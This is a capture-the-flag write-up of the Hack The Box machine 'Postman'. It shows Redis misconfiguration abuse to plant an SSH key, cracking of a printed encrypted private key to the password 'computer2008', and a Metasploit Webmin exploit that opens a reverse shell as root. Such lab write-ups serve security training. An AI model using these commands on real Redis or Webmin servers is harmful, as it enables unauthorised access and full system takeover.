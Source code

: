 # Postman

Postman was an easy linux box that required use of the redis service for unauthenticated shell and then we use another exploit on webmin for root.

>Skills involved in this box
- enumeration
- redis exploitation
- priv esc

# USER

>Nmap

```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see from our nmap that the ip is running port 6379 for redis, this is an instant alarm that we need to use that as redis is a rare occurance in htb which makes the path slighty more obvious.

We run a dirbuster but nothing interesting occured after looking at the output.

We head over to http://postman.htb:10000 to check whats there. It gives us a redirect to a login page for webmin.
The version is `MiniServ/1.910`

There were a few exploits listed with searchsploit o exploit-db but none of them worked for the webadmin either not on this box or needed creds so at this stage wasnt possible.

>Exploiting redis using redis-cli

If you dont already have this installed you can install it with `sudo apt-get install redis-server`

i will show the exploitation steps below:
```bash
ssh-keygen on our box.
chmod 400 /home/kali/.ssh/id_rsa.pub
in redis:

kali@kali:~/boxes/postman$ redis-cli -h 10.10.10.160
10.10.10.160:6379> CONFIG SET dbfilename "authorized_keys"
OK
10.10.10.160:6379> CONFIG SET dir "/var/lib/redis/.ssh"
OK
10.10.10.160:6379> flushall
OK
10.10.10.160:6379> exit

on our box:

kali@kali:~/boxes/postman$ echo -e '\n\n' >> blob.txt
kali@kali:~/boxes/postman$ cat ~/.ssh/id_rsa.pub >> blob.txt
kali@kali:~/boxes/postman$ echo -e '\n\n' >> blob.txt

Last step:

kali@kali:~/boxes/postman$ cat blob.txt | redis-cli -h 10.10.10.160 -x set ssh

kali@kali:~/boxes/postman$ redis-cli -h 10.10.10.160 save
```
Then we simply ssh into the box as redis using our private key. `ssh -i /home/kali/.ssh/id_rsa redis@10.10.10.160`

Reading `/etc/passwd` reveals the user Matt:
```bash
Matt:x:1000:1000:,,,:/home/Matt:/bin/bash
redis:x:107:114::/var/lib/redis:/bin/bash
```
So we assume we have to priv esc to matt in some sort of way.

After enumerating for a while we find an interesting file in `/opt`.
```bash
redis@Postman:~$ cd /opt
redis@Postman:/opt$ ls -la
total 12
drwxr-xr-x  2 root root 4096 Sep 11  2019 .
drwxr-xr-x 22 root root 4096 Aug 25  2019 ..
-rwxr-xr-x  1 Matt Matt 1743 Aug 26  2019 id_rsa.bak
redis@Postman:/opt$ cat id_rsa.bak
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
```
It seems to be an old ssh key, lets see if we can crack it using `ssh2john.py`.
```/usr/share/john/ssh2john.py id_rsa > hash.txt```
```bash
kali@kali:~/boxes/postman$ sudo john -w=/home/kali/rockyou.txt hash.txt
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa)
```
And it worked! We get the password `computer2008` as the password for Matt.

We try reloging in with ssh as matt but it doesnt work.
We find if we just use `su Matt` and input the password it works completely fine. We then read our user flag.
```bash
edis@Postman:/opt$ su matt
No passwd entry for user 'matt'
redis@Postman:/opt$ su MAtt
No passwd entry for user 'MAtt'
redis@Postman:/opt$ su Matt
Password: 
Matt@Postman:/opt$ cd /home/Matt
Matt@Postman:~$ ls
user.txt
Matt@Postman:~$ cat user.txt
517ad0ec2458ca97af8d93aac08a2f3c
```

# ROOT

It turns out theese credentials work on the site for webmin so we can use the metasploit module that we saw earlier as we now have the needed creds to do so.

```bash
msf5 > use exploit/linux/http/webmin_packageup_rce
msf5 exploit(linux/http/webmin_packageup_rce) > show options

Module options (exploit/linux/http/webmin_packageup_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Webmin Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      10000            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path for Webmin application
   USERNAME                    yes       Webmin Username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin <= 1.910


msf5 exploit(linux/http/webmin_packageup_rce) > set PASSWORD computer2008 
PASSWORD => computer2008
msf5 exploit(linux/http/webmin_packageup_rce) > set USERNAME Matt
USERNAME => Matt
msf5 exploit(linux/http/webmin_packageup_rce) > set rhosts 10.10.10.160
rhosts => 10.10.10.160
msf5 exploit(linux/http/webmin_packageup_rce) > set LHOST 10.10.xx.xx
LHOST => 10.10.14.5
msf5 exploit(linux/http/webmin_packageup_rce) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf5 exploit(linux/http/webmin_packageup_rce) > run

[*] Started reverse TCP handler on 10.10.xx.xx:4444 
[+] Session cookie: xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.xx.xx:4444 -> 10.10.10.160:53994) at 2020-06-13 11:34:22 -0400
id

uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
a257741c5bed8be7778c6ed95686ddce

```
Thanks for reading hope you enjoyed.
